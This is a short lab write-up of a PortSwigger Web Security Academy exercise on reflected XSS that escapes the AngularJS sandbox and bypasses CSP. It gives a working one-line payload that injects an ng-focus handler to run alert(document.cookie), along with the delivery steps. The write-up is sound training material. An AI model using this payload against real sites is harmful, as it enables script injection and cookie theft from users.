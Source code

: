 # XSS - Reflected XSS with AngularJS sandbox escape and CSP

## 📌 Lab Details
- **Title**: Reflected XSS with AngularJS sandbox escape and CSP
- **Difficulty**: Expert
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/978febc1996cddc2b7cd48d98a7675b4c51e498017943479c16896589a51c363?referrer=%2fweb-security%2fcross-site-scripting%2fcontexts%2fclient-side-template-injection%2flab-angular-sandbox-escape-and-csp

## 🔍 Summary
This lab shows how to bypass strict Content Security Policy (CSP) and AngularJS sandbox restrictions to execute JavaScript, specifically to alert the victim’s cookies. 

## 🛠 Payload Used 
```sh
location='https://0a03008c04079241805fd06d009200210.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
```
Click Store and 'Deliver Exploit to victim'.

## 📖 Key Takeaways
- **Focus event trigger**: The `ng-foucs` event is used to execute the payload when the element gain focus, making the attack automatic.
- **CSP bypass**: You can run JavaScript by injecting code into allowed HTML attributes instead of inline scripts.
- **Event path usage**: `event.composedPath()` provides access to the event propagation path, including the `window` object which is usually restricted.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/5ff0679f-5aee-4bdc-8156-a49f81f8908a)
![image](https://github.com/user-attachments/assets/63d02320-39f7-43b0-bb03-e8596f06f5bb)
![image](https://github.com/user-attachments/assets/c820afdd-22d3-4674-95f5-9e2fb913d6ff)
